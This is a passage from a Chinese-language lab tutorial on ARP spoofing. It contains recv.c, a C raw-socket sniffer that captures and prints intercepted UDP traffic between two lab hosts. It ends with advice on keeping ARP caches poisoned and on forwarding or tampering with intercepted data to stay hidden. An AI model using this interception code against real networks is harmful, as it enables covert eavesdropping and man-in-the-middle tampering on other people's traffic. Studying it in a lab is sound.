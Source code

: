 ```
 //Filename: recv.c #include <stdio.h> #include <netinet/in.h> #include <sys/socket.h> #include <netinet/ether.h>   #define IP_ADDR_LEN 4 ​ unsigned char src_ip_addr[IP_ADDR_LEN] = {192, 168, 133, 1}; unsigned char dst_ip_addr[IP_ADDR_LEN] = {192, 168, 133, 140}; ​ void print_ip_addr(char*); int ipcmp(char*, char*); int main(int argc,char *argv[]) {     unsigned char buf[1024] = {0};     //初始化原始套接字     int sock_raw_fd = socket(PF_PACKET, SOCK_RAW, htons(ETH_P_ALL));     printf("sock_fd: %d\n", sock_raw_fd);      if (sock_raw_fd < 0)         return -1;     //获取链路层的数据包     while(1){         int len = recvfrom(sock_raw_fd, buf, sizeof(buf), 0, NULL, NULL);         if (len == -1)             break;         //如果第 24 个字节是 0x11，说明是 UDP 报文         if (len >= 24 && buf[23] == 0x11){             //获取报文中的源 IP 地址和目标 IP 地址。与我们要拦截的 IP 地址进行对比             if (ipcmp(buf+26, src_ip_addr) == 0 && ipcmp(buf+30, dst_ip_addr) == 0){                 printf("Length = %d\n", len);                 printf("Received:\n");                 int i = 0;                 while (len > i){                     printf("%x ", buf[i]);                     if (i % 8 == 7) printf("  ");                     if (i % 16 == 15) printf("\n");                     i++;                 }                 printf("\n");                 printf("Source: ");                 print_ip_addr(buf+26);                 printf("Destination: ");                 print_ip_addr(buf+30);                 printf("UDP data: ");                 //打印消息体                 i = 42;                 while (len > i){                     printf("%c", buf[i]);                     i++;                 }                 printf("\n\n");             }         }     }     return 0; } ​ void print_ip_addr(char* buf){     int i = 0;     for (i = 0; i < IP_ADDR_LEN; ++i) {         printf("%d", buf[i] & 0x000000ff);         if (i+1 != IP_ADDR_LEN){             printf(".");         } else {             printf("\n");         }     } } ​ int ipcmp(char* buf, char* ip_addr){     int i = 0;     for (i = 0; i < IP_ADDR_LEN; ++i) {         if (buf[i] != ip_addr[i]){             return -1;         }     }     return 0; }
```

下面是用 recv 接收数据的效果：

![](file:///C:/Users/supermouse/Downloads/ARP%E6%AC%BA%E9%AA%97/2019-12-15\_004108.png?lastModify=1633872719)

## 结语

为了方便，我在实验过程中做了几点简化：

*   **ARP 缓存有效期问题**

    我们在实验过程中，只发起了一次 ARP 攻击。在文章开头介绍 ARP 的时候我提到了 ARP 缓存有效期，事实上，ARP 攻击正是利用了 ARP 缓存。C 发起 ARP 攻击之后，A 的 ARP 缓存中存在着一条错误的「IP 地址 - MAC 地址」对应关系，但是当有效期过了之后，这个缓存就失效了，C 需要再次发起 ARP 攻击。如果你想达到长期欺骗的效果，应该改写一下 send_arp.c，让它每隔一定的时间就发送一次 ARP 应答，使目标主机更新自己的 ARP 缓存。
* **数据处理方式**
  1. 我在 recv.c 中选择了只接收源 IP 地址是 192.168.133.1，目标 IP 地址是 192.168.133.140 的 UDP 报文，理论上，在实施 ARP 攻击之后，A 发送给 B 的一切数据都会发送到 C 这里，无论是 UDP 还是 TCP，感兴趣的读者可以自行对 recv.c 进行更改，拦截其他数据。
  2. 在我写的 recv.c 中，拦截数据之后只是简单地打印出来，实际上这样做的话 B 会很快发现自己收不到 A 的数据了，从而发现隐藏的攻击者。根据不同的目的，我们在拦截数据之后，可以选择不同的处理方式，比如将数据再次转发给 C（甚至可以做一些篡改再转发）。

除了上述的几点简化，本次实验还有有待完善的地方。仔细观察你会发现，A 在局域网中其实是一个网关。在实验过程中，我尝试过把 C 的攻击对象改为 B，也就是让 B 认为 A 的 MAC 地址是 00:0C:29:80:44:D4，然后查看 B 的 ARP 缓存，发现攻击生效了。但是当 B 给 A 发送数据的时候，我发现 A 仍能接收到 B 发送的数据。这一点我始终没想明白是为什么，为什么攻击网关可以生效，而攻击局域网中的其他主机不能生效呢？希望知道真相的读者可以为我指点迷津，谢谢！

## 参考链接

1. [https://zh.wikipedia.org/wiki/地址解析协议](https://zh.wikipedia.org/wiki/%E5%9C%B0%E5%9D%80%E8%A7%A3%E6%9E%90%E5%8D%8F%E8%AE%AE)
2. [ARP and ICMP redirection games](https://insecure.org/sploits/arp.games.html)
3. [Linux网络编程——原始套接字编程](https://blog.csdn.net/tennysonsky/article/details/44676377)
4. [https://www.bilibili.com/video/BV147411h7dN?p=69](https://www.bilibili.com/video/BV147411h7dN?p=69)

\
